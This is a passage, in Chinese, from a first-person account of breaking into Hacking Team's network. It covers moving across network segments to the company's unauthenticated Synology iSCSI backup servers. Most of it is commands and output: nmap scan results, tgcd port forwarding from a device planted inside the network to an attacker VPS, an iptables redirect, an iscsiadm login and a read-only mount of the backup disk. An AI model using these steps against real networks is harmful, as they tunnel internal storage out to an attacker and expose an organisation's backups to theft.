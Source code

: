 这些是做RCS测试的实例。RCS抓到的音频都存储在MongoDB里面。400G种子里面的音频就是来自这里，他们也在监视着自己。

0x07 跨网段
=====

比较有趣的是，看着监视器中正在开发恶意软件的HT，尽管这对我的渗透来说并没有什么用。他们不安全的备份系统是下一个敞开的大门。根据他们自己的文档，他们的iSCSI系统应该在一个分离的网段，但是却在192.168.1.200/24网段被nmap扫描出来了：

```
...
3260/tcp open  iscsi?
| iscsi-info:
|   Target: iqn.2000-01.com.synology:ht-synology.name
|     Address: 192.168.200.66:3260,0
|_    Authentication: No authentication required

Nmap scan report for synology-backup.hackingteam.local (192.168.200.72)
...
3260/tcp open  iscsi?
| iscsi-info:
|   Target: iqn.2000-01.com.synology:synology-backup.name
|     Address: 10.0.1.72:3260,0
|     Address: 192.168.200.72:3260,0
|_    Authentication: No authentication required

```

iSCS需要一个核心模块，这个核心模块在我的嵌入式系统中很难编译。所以我准备把端口转发出来以便于能够在VPS上挂载。

```
VPS: tgcd -L -p 3260 -q 42838
Sistema embebida: tgcd -C -s 192.168.200.72:3260 -c VPS_IP:42838

VPS: iscsiadm -m discovery -t sendtargets -p 127.0.0.1

```

iSCSI发现了`iqn.2000-01.com.synology`，但是在挂载的时候出现了一些问题，它的地址同时是`192.168.200.72`和`127.0.0.1`。

解决办法是：

```
iptables -t nat -A OUTPUT -d 192.168.200.72 -j DNAT --to-destination 127.0.0.1

```

然后：

```
iscsiadm -m node --targetname=iqn.2000-01.com.synology:synology-backup.name -p 192.168.200.72 --login

```

至此，文件系统现身了！挂载上去：

```
vmfs-fuse -o ro /dev/sdb1 /mnt/tmp

```
